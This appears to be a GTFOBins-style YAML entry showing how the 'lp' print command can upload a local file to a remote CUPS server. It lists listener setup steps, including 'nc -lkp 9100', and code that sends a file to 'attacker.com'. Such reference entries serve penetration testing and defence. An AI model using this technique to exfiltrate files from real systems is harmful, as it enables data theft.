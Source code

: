 functions:
  file-upload:
    - description: |
        To collect the file run the following on the attacker box (this requires `cups` to be installed):

        1. `lpadmin -p printer -v socket://localhost -E` to create a virtual printer;
        2. `lpadmin -d printer` to set the new printer as default;
        3. `cupsctl --remote-any` to enable printing from the Internet;
        4. `nc -lkp 9100` to receive the file.

        Send a local file to a CUPS server.
      code: |
        LFILE=file_to_send
        RHOST=attacker.com
        lp $LFILE -h $RHOST
---
